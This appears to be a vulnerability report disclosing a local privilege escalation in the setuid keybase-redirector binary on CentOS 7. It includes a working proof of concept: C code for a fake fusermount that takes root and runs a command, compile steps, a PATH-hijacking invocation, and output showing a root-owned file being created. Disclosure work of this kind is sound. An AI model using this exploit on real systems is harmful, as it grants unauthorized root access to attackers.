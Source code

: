 keybase-redirector is a setuid root binary. keybase-redirector calls the fusermount binary using a relative path and the application trusts the value of $PATH. This allows a local, unprivileged user to trick the application to executing a custom fusermount binary as root.

## Environment

CentOS Linux release 7.4.1708 (Core)
3.10.0-693.17.1.el7.x86_64

RPM info

```
Name        : keybase
Version     : 2.8.0.20181017144746.3efc4cbf3c
Release     : 1
Architecture: x86_64
Install Date: Mon 22 Oct 2018 05:30:36 PM EDT
Group       : Unspecified
Size        : 273302678
License     : BSD
Signature   : RSA/SHA256, Wed 17 Oct 2018 10:55:21 AM EDT, Key ID 47484e50656d16c7
Source RPM  : keybase-2.8.0.20181017144746.3efc4cbf3c-1.src.rpm
Build Date  : Wed 17 Oct 2018 10:54:47 AM EDT
Build Host  : 6ae61e160e87
Relocations : (not relocatable)
Summary     : Keybase command line client
Description :
Keybase command line client
```

An unprivileged user named user1 is used for this PoC.

## Steps to reproduce

1) Display privileges of user 1 - execute the id command

```
[user1@localhost woot]$ id
uid=1000(user1) gid=1000(user1) groups=1000(user1) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

2) Create a custom fusermount application. This PoC will create /w00t as root. Arbitrary commands can be executed.

```
cat >fusermount.c<<EOF
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char **argv)
{
  setreuid(0,0);
  system("/usr/bin/touch /w00t");
  return(0);
}
EOF
``

3) Compile fusermount.c

```
gcc -Wall fusermount.c -o fusermount
```

4) Verify that /w00t does not exist.

```
[user1@localhost woot]$ ls -ld /w00t
ls: cannot access /w00t: No such file or directory
```

5) Prepend the PATH environment variable with a dot(for current working directory) and execute keybase-redirector which in turn will execute the malicious fusermount binary as root.

```
env PATH=.:$PATH /usr/bin/keybase-redirector /keybase
```

6) Enter the control-c sequence to kill the application.

```
[user1@localhost woot]$ env PATH=.:$PATH /usr/bin/keybase-redirector /keybase
^C
```

7) Verify that /w00t exists

```
[user1@localhost woot]$ ls -ld /w00t
-rw-rw-r--. 1 root user1 0 Oct 22 16:34 /w00t
[user1@localhost woot]$
```

## Impact

Unauthorized root access is possible which impacts the confidentially, integrity, and availability of the system.
